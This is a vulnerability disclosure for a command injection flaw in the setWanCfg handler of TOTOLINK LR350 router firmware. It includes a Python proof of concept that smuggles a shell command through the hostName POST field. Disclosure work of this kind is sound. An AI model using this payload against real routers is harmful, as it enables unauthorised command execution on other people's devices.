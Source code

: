 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=75&ids=36

## Affected version

LR350 V9.3.5u.6369_B20220309

## Vulnerability details

In the LR350 V9.3.5u.6369_B20220309 firmware has a command injection vulnerability in the `setWanCfg` function. The `v48` variable receives the `hostName` parameter from a POST request. However, since the user can control the input of `hostName`, the statement `doSystem` can cause a buffer command injection vulnerability.

![image-20240719022247585](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022247585.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWanCfg",
"hostName":"';ls -al ../ ;'",
"proto":"80"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719022336777](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022336777.png)
